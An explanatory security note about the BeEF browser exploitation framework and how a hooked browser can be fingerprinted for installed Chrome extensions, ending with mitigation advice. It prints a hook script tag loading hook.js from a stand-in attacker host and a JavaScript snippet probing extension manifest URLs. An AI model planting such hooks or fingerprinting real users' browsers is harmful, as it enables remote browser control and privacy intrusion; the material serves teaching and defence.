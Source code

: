 <br>

# BeEF (Browser Exploitation Framework)
BeEF (Browser Exploitation Framework) is **a penetration testing tool that focuses on browser vulnerabilities and client-side exploitation**. It is often used to assess the security posture of web browsers and applications. A BeEF hook enables an attacker to control and manipulate a hooked browser remotely after the victim visits a malicious or compromised web page.

## 1. What is a BeEF Hook?
  - Hook: **The BeEF hook is a JavaScript payload that is injected into the victim’s browser**.
  - Once hooked, the browser connects back to the attacker’s BeEF server, allowing the attacker to execute commands and gather information.
  - The hook is typically inserted
    - By embedding a \<script> tag into a compromised webpage.
    - Through XSS (Cross-Site Scripting) vulnerabilities.
    - Via social engineering (e.g., phishing pages).

### Basic Example of a Hook Script  

```
<script src="http://attacker.com/hook.js"></script>
```

When the victim loads this script, the browser gets “hooked,” and the attacker gains control.  
<br>

## 2. Extracting Information About Chrome Extensions
Once a browser is hooked using BeEF, the **attacker can gather various details, including Chrome extension information**. This is particularly concerning because browser extensions may contain sensitive data, such as:  
  - User data stored by the extensions.
  - Extension names and IDs.
  - Behavioral insights (e.g., installed security tools).  
<br>

## 3. Method of Getting Chrome Extension Information
  - BeEF uses JavaScript running in the context of the victim’s browser to enumerate the URLs and structure associated with Chrome extensions.

### How Chrome Extensions Work
- Chrome extensions are installed in the browser and are typically loaded as a Chrome extension URL.
- Example of a Chrome extension URL:  

```
chrome-extension://<extension-id>/<file-path>
```

### Enumeration of Chrome Extensions
1. The attacker uses the BeEF framework to inject code that attempts to load resources from common extension paths.
2. By observing errors or successful loads, the attacker can infer which extensions are installed.  
<br>

## 4. Example BeEF Module: Enumerating Extensions
Using BeEF, an attacker can leverage the “Get Chrome Extensions” module, which attempts to detect popular Chrome extensions by loading known resource paths.

### Example Code to Enumerate Extensions  

```
var extensionIds = [
  "aapocclcgogkmnckokdopfmhonfmgoek", // Example extension ID
  "mhjfbmdgcfjbbpaeojofohoefgiehjai"  // Another example
];

extensionIds.forEach(function(id) {
  var xhr = new XMLHttpRequest();
  xhr.open("GET", "chrome-extension://" + id + "/manifest.json", true);
  xhr.onreadystatechange = function() {
    if (xhr.readyState == 4) {
      if (xhr.status == 200) {
        console.log("Extension Found: " + id);
      }
    }
  };
  xhr.send();
});
```

### How It Works
1. The script checks known Chrome extension URLs (e.g., /manifest.json).
2. If the request succeeds (200 OK), it confirms the extension is installed.
3. The results are sent back to the BeEF control server.  
<br>

## 5. Practical Implications
  - **Privacy Concerns**
    - Extensions like password managers, ad blockers, and VPNs can be detected, compromising user privacy.
  - **Targeted Attacks**
    - Knowing which security extensions are installed allows attackers to craft targeted exploits.
  - **Security Bypasses**
    - Attackers can identify and disable security-focused extensions using further social engineering or browser vulnerabilities.  
<br>

## 6. Prevention and Mitigation
1. **Avoid Untrusted Websites**
  - Do not visit untrusted or malicious sites where the BeEF hook script could be embedded.
2. **Secure Against XSS**
  - Ensure web applications are free of XSS vulnerabilities to prevent BeEF hooks.
3. **Limit Permissions for Extensions**
  - Install extensions only from trusted sources and review their permissions.
4. **Use Content Security Policy (CSP)**
  - A strict CSP can block untrusted scripts, including BeEF hooks.
5. **Browser Security Tools**
  - Use browser settings and extensions that restrict JavaScript execution on untrusted sites.
6. **Monitor Browser Behavior**
  - Regularly check for unusual network connections or JavaScript activity.  
<br>

## 7. Summary

| Aspect | Details |
| ------ | ------- |
| What is BeEF? | A browser exploitation framework for assessing browser security. |
| What is a Hook? | A malicious JavaScript payload that connects a victim’s browser to BeEF. |
| Chrome Extensions | BeEF can enumerate installed Chrome extensions by checking known paths. |
| Exploitation Method | Requests are sent to chrome-extension://<id> paths like /manifest.json. |
| Implications | Privacy exposure, targeted attacks, and bypassing security extensions. |
| Mitigation | Avoid untrusted sites, patch XSS, enforce CSP, and limit extension usage. |

**The BeEF hook is a powerful tool for browser exploitation, enabling attackers to enumerate Chrome extensions and gather critical information**. By understanding how BeEF works and employing strong web security practices—like input sanitization, CSP policies, and careful use of extensions—users and developers can defend against these attacks.  
<br>